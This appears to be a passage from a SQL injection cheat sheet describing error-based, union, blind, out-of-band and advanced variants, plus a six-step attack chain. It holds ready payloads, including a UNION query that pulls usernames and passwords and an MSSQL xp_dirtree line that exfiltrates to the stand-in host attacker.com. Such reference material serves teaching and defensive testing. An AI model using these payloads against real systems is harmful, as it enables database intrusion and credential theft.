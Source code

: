 ```sql
  ' AND EXTRACTVALUE(1, CONCAT(0x7e, version(), 0x7e))--
```

- **Union‑Based SQLi** : Uses `UNION SELECT` to combine results from different queries.

```sql
  ' UNION SELECT username, password FROM users--
```

---

### **B. Blind SQLi** (no direct output — infer from behavior)

- **Boolean‑Based** : True/false conditions change the page.

```sql
  ' AND 1=1--
  ' AND 1=2--
```

- **Time‑Based** : Delays response to confirm conditions.

```sql
  ' OR IF(1=1, SLEEP(5), 0)--
```

---

### **C. Out‑of‑Band (OOB) SQLi**

- Uses a different channel (DNS, HTTP) to exfiltrate data.
- Example (MSSQL):
  ```sql
  '; exec master..xp_dirtree '\\attacker.com\share'--
  ```

---

### **D. Advanced Variants**

- **Second‑Order SQLi** : Malicious input stored in DB, executed later in a different query.
- **Stacked Queries** : Multiple queries in one request (if DB supports `;`).
- **NoSQL Injection** : Similar concept in NoSQL databases (MongoDB, etc.).

---

## 4️⃣ Attack Chain

1. **Discovery** — Find input that interacts with the DB (forms, URL params, headers).
2. **Testing** — Inject `'` or `"` to cause syntax errors.
3. **Fingerprinting** — Identify DB type (MySQL, MSSQL, Oracle, PostgreSQL).
4. **Enumeration** — Extract schema info (`information_schema.tables`).
5. **Data Extraction** — Dump sensitive data.
6. **Privilege Escalation** — Create new DB users, read/write files, execute OS commands.

---